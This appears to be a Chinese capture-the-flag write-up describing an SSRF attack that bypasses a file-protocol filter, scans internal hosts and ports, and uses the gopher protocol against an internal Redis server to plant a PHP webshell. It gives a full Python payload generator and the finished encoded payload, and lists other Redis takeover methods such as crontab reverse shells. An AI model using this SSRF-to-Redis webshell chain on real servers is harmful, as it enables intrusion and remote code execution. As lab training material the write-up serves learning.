









## 思路

1. 打开网页显示如下：

   

   F12后看到有提示`?secret`，则在url中加上`?secret`，可以看到如下信息，发现三个IP。

   

2. 该题将输入url传入后端，题目也提示了IP，猜测利用ssrf漏洞。

   当输入127.0.0.1时，页面上会显示别这样，说明后端会对输入的内容进行检查。

3. 尝试获取index.php源码，`file:%20///var/www/html/index.php`或`file:/var/www/html/index.php`绕过对file协议的过滤。

   分析下面源码，发现index.php过滤了file和dict协议，但没有过滤http和gopher协议。

   因此我们可以使用http来探测内网中存活的IP，以及对应开放的端口，从而猜测对应使用什么服务，查找有没有漏洞可以利用。

   

4. 利用burpsuite进行测试

   

   最后的结果为：

   

   10.69.29.5对应页面为：

   

   10.69.29.6对应页面为：

   

   

   10.69.29.7对应页面为：

   

   10.69.29.11对应页面为：

   

   这个页面提示端口，对该IP的其他端口再进行探测：

   

   另外把线程数调少，避免出现429。




5. 扫描出来发现端口6379和80开放。

   6379是redis端口，根据[GKCTF2020 EZ三剑客-EzWeb]([GKCTF2020]EZ三剑客-EzWeb.md)提过的四种利用方式：

   1. 可写webshell
   2. 写ssh公钥
   3. 写crontab反弹shell
   4. redis主从复制rce

   本题可以尝试写入webshell，利用gopher协议写入shell.php。

   生成payload的脚本如下：

   ```python
   import urllib
   protocol="gopher://"
   ip="10.69.29.11"      // 运行有redis的主机ip
   port="6379"
   shell="\n\n<?php system(\"cat /flag\");?>\n\n"
   filename="shell.php"
   path="/var/www/html"
   passwd=""
   cmd=["flushall",
   	 "set 1 {}".format(shell.replace(" ","${IFS}")),
   	 "config set dir {}".format(path),
   	 "config set dbfilename {}".format(filename),
   	 "save"
   	 ]
   if passwd:
   	cmd.insert(0,"AUTH {}".format(passwd))
   payload=protocol+ip+":"+port+"/_"
   def redis_format(arr):
   	CRLF="\r\n"
   	redis_arr = arr.split(" ")
   	cmd=""
   	cmd+="*"+str(len(redis_arr))
   	for x in redis_arr:
   		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
   	cmd+=CRLF
   	return cmd
   
   if __name__=="__main__":
   	for x in cmd:
   		payload += urllib.quote(redis_format(x))
   	print payload
   
   ```

6. 生成的payload为：

   `gopher://10.69.29.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2432%0D%0A%0A%0A%3C%3Fphp%20system%28%22cat%20/flag%22%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A`

   传入url后，再提交`http://10.69.29.11/shell.php`，即可获得flag。

## 总结

- 利用http协议探测内网开放的IP和端口。
- redis+ssrf，利用gopher协议写入webshell